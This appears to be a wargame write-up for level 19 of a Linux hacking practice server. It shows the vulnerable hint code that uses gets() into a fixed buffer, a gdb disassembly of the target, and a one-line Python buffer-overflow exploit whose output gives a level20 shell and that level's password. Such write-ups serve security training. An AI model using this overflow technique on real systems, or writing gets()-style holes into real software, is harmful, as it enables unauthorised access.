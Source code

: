 -rw-r-----    1 root     level19        65  3월  8  2003 hint

drwxr-xr-x    2 root     level19      4096  2월 24  2002 public_html

drwxrwxr-x    2 root     level19      4096  1월 16  2009 tmp

### 2. hint
```c
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

### 3. gdb attackme
```asm
0x08048440 <main+0>:	push   ebp
0x08048441 <main+1>:	mov    ebp,esp
0x08048443 <main+3>:	sub    esp,0x28
0x08048446 <main+6>:	sub    esp,0xc
0x08048449 <main+9>:	lea    eax,[ebp-40]
0x0804844c <main+12>:	push   eax
0x0804844d <main+13>:	call   0x80482f4 <gets>
0x08048452 <main+18>:	add    esp,0x10
0x08048455 <main+21>:	sub    esp,0x8
0x08048458 <main+24>:	lea    eax,[ebp-40]
0x0804845b <main+27>:	push   eax
0x0804845c <main+28>:	push   0x80484d8
0x08048461 <main+33>:	call   0x8048324 <printf>
0x08048466 <main+38>:	add    esp,0x10
0x08048469 <main+41>:	leave
0x0804846a <main+42>:	ret
0x0804846b <main+43>:	nop
0x0804846c <main+44>:	nop
0x0804846d <main+45>:	nop
0x0804846e <main+46>:	nop
0x0804846f <main+47>:	nop
```

### 4. exploit code
(python -c 'print "A"*44+"\x6e\xf4\xff\xbf"';cat) | ./attackme
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAn????
                                                 id
uid=3100(level20) gid=3099(level19) groups=3099(level19)
my-pass
TERM environment variable not set.
Level20 Password is "we are just regular guys".


## Level20
